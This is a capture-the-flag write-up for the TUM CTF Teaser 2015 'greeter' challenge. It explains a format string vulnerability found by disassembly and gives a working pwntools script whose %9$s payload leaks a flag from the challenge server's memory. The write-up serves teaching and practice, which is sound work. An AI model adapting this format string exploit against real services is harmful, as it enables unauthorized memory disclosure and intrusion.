 # TUM CTF Teaser 2015: greeter

**Category:** Pwn
**Points:** 15
**Solves:** 36
**Description:**

> Baby's 1st
> 
> [greeter](greeter)
> 
> nc 1.ctf.link 1030


## Write-up

This was the first challenge in the pwn category and was pretty easy to solve.
The service asks us for our name and then tells us to pwn harder.

```
Hi, what's your name?
adsfasdf
Pwn harder, asdfasdf!
```

After a quick look at the disassembly with [radare2](http://radare.org/r/)
wee can see that there are two consecutive
calls to `printf` to print the `Pwn harder, $name!` string. 

```
0x004006d1    bf9f084000     mov edi, str._e_34mPwn_harder_ ; str._e_34mPwn_harder_ ; greeter.c:29  
0x004006d6    31c0           xor eax, eax
0x004006d8    e8c3feffff     call sym.imp.printf
0x004006dd    4889df         mov rdi, rbx                  ; greeter.c:30  
0x004006e0    31c0           xor eax, eax
0x004006e2    e8b9feffff     call sym.imp.printf
0x004006e7    bfb1084000     mov edi, str.__e_0m           ; "!.[0m" @ 0x4008b1 ; greeter.c:31  
0x004006ec    e87ffeffff     call sym.imp.puts
```

And the format string argument seems to be something non-constant. This smells
like a format string vulnerability.
```
Hi, what's your name?
%x 
Pwn harder, 60be2f50!
```

Yes! So we have a pretty straight forward format string vulnerability. At the start
of the `main` function we have code that reads the flag.txt file and stores it
at a location which is apparently not randomized by ASLR.
```
0x00400619    bf96084000     mov edi, str.flag.txt         ; "flag.txt" @ 0x400896
0x0040061e    e8bdffffff     call sym.imp.fopen
0x00400623    4885c0         test rax, rax
0x00400626    0f84d8000000   je 0x400704                  
0x0040062c    4889c2         mov rdx, rax                  ; greeter.c:18  
0x0040062f    be00010000     mov esi, 0x100
0x00400634    bfa00c6000     mov edi, obj.flag             ; obj.flag
0x00400639    4889c5         mov rbp, rax
0x0040063c    e87fffffff     call sym.imp.fgets
```

So we now have to craft a format string that prints the flag. So we add the 
address of the flag object to our format string and use the `%N$s` format 
specifier to directly access the N'th argument, to get to the address of flag. 
After playing around with  the format string a little bit, I got the flag 
`hxp{f0rm4t_sTr1ngs_r0ck}`.
Here is the script I used.

```python
from pwn import *  # NOQA

context.log_level = 'debug'

p = remote("1.ctf.link", 1030)
#p = process("./greeter")
velf = ELF("./greeter")
flagaddr = velf.symbols["flag"]
log.info("Flag addr = 0x{:x}".format(flagaddr))

#fmtstr = ""
fmtstr = "AAAA" * 2
fmtstr += r"%9$s"
fmtstr += "BBBB"
#fmtstr += r"%9$x"
fmtstr += p64(flagaddr)
fmtstr += p64(flagaddr)
fmtstr += p64(flagaddr)

p.recvline()
p.sendline(fmtstr)
line = p.recv()
log.info(line)
m = re.search("(hxp{.*})", line)
if m:
    log.info("found flag: " + m.groups()[0])
p.clean_and_log()
```

## Other write-ups and resources

* none yet
